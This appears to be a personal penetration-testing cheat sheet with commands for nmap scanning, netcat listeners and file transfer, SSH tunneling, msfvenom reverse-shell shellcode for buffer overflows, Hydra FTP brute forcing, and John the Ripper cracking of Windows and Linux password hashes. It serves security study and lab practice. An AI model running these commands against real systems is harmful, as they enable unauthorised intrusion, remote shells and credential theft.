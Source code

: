 
# vpn connection

sudo openvpn



# Terminator keybinds 

//move around by word
ctrl + fn + left or right arrow

//delete whole word 
alt + backspace

//split horizontally 
ctrl + super + c

//split vertically
ctrl + super + v

//close terminal
shift + ctrl + w

//restore default zoom
ctrl + 0

//fullscreen a specific pane 
ctrl + shift + Z




# Typical nmap commands 

//update scripts database
nmap --script-updatedb

//ping sweep, we can run this first to discover hosts
nmap -sn 

//also we can try running no ping to see any extra hosts hidden behind firewalls
nmap -n -sn

//we have hosts we can scan targets to check OS and service/version and run default scripts
nmap -T4 -O -sV -sC

//if all ports are filtered on a host be sure to check for openings on udp port 161/ (SNMP)
nmap -sU -p 161,162 




# Netcat commands

//setup listener
nc -lvnp <port>

//file transfer recieving end
nc -l -p 1234 > output.file

//sending end
nc -w 3 [target] 1234 < output.file



# grep for searching through large files

grep -i "string goes here" filename.txt





# SSH tunneling

//-L initiates a tunnel
ssh -L localport:target:remoteport Name@sshserver.com





# MSF Venom

//create starting payload for BOF -l specifes length/size
msf-pattern_create -l <payloadsize>


//get offset
msf-pattern_offset -l <length> -q <EIP>


//BOF shellcode // -b "\x00" specifies to remove all null bytes, any other bad bytes can be specified also
msfvenom -p windows/meterpreter/reverse_tcp LHOST=eth0 LPORT=4444 -f py -b "\x00"



# add/view routes

route print

ip route add <targetIP> via <gateway>




# Hydra FTP brute forcing

hydra -t 20  -l /home/kali/Desktop/userslist -P /home/kali/Desktop/password.txt -vV <targetIP> ftp


# John The Ripper password cracking 


//this one for windows passwords
john --wordlist=/home/kali/Desktop/rockyou.txt --format=NT /home/kali/Desktop/hashdump.txt

//this one for linux passwords, first unshadow them, then run John

unshadow [passwdfile] [shadowfile] > [output file name]

john --wordlist=/usr/share/john/password.lst [output file name]


# enum4linux 



enum4linux.pl -a <targetIP> | tee enum4linux.log